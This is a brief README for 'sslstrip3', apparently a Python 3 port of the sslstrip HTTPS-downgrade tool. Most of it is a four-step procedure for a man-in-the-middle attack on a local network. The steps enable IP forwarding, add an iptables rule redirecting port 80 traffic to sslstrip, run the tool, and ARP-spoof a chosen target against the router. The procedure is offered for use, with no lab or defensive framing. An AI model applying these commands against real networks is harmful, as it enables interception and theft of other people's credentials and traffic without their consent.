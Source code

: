 # sslstrip3
implementation of moxie marlinspikes sslstrip im python3

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the 
	command-line options.

	The four steps to getting this working (assuming you're running Linux) 
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
	
	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
     
     
more info on moxies github
